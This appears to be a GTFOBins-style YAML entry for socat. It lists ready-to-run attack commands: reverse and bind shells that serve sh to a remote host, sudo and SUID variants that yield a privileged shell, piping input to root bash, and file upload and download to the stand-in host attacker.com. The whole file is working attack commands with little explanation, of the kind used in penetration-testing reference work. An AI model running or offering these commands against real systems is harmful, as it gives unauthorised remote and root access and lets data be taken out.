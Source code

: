```yaml
---
functions:
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
  sudo:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  sudo-target-only:
    - description: Run ``socat STDIN EXEC:/bin/bash`` on the target box to forward all STDIN directly to bash as root
      code: |
        sudo socat STDIN EXEC:/bin/bash
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
---
```

